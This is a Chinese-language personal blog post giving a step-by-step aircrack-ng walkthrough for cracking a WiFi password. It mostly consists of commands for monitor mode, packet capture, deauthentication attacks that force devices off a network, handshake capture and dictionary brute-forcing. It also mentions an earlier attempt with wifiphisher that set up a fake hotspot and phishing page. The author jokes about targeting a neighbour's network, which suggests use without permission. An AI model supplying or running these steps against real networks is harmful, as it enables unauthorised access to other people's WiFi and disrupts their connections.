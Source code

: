```yaml
---
thumbnail: https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/thumbnail/st.jpg
title: aircrack-ng破解wifi
date: 2020-5-4
author: shepherd
toc: ture
categories: [操作系统,Linux]
tags: [aircrack-ng]
---
```


但是使用wifiphisher的情况并没有我想象的那样强大，应该是我的操作问题吧，只是生成了一个假热点，并将用户重定向至钓鱼页面，并没有断开连接原来wifi的设备

在查找资料时碰到了这个工具包，有一个功能就是强制断开他人的wifi，挺有趣的记下笔记

<!-- more -->

使用前提，支持监听注入的网卡

## step1

使用`iwconfig`查看网卡加载情况

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/iwconfig.png)

## step2

`airmon-ng check kill`杀掉所有网络进程

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/kill-net.png)

如果杀掉后自动启动的话，建议使用`systemctl stop`杀得彻底些

## step3

`airmon-ng start wlp0s20f0u1`启动网卡监听模块

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/start-mon.png)

注意网卡名字会变成`wlp0s20f0u1mon`

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/monitor.png)

## step4

`airodump-ng wlp0s20f0u1mon`开始监听

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/net-monitor.png)

- PWR是信号强度，越小信号越强
- CH代表信道

## step5

`airodump-ng -c 6 --bssid 网络mac地址 -w filename wlp0s20f0u1mon`开始抓包

- -c，指的是信道CH
- --bssid，指的是AP mac地址
- -w，输出的文件路径

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/airodump-ng.png)

`STATION`代表的是设备mac，由几个mac就代表有几个设备

当有设备重新连接时，就会抓到握手包，放到`-w`指定的文件里，下一步介绍强制掉线

## step6

`aireplay-ng -0 0 -a AP_mac -c 设备mac wlp0s20f0u1mon`强制wifi掉线

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/aireplay-ng.png)

（希望对面邻居不要生气）当对方重连时就会抓到握手包

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/handsnake.png)

## step7

`aircrack-ng -a2 -b AP_mac -w 字典.txt filename.cap`跑字典，爆破密码

字典去网上找吧

## 参考文献

[【无线攻防】使用aircrack-ng工具破解wifi密码](https://blog.csdn.net/nuoya_1995/article/details/52402728)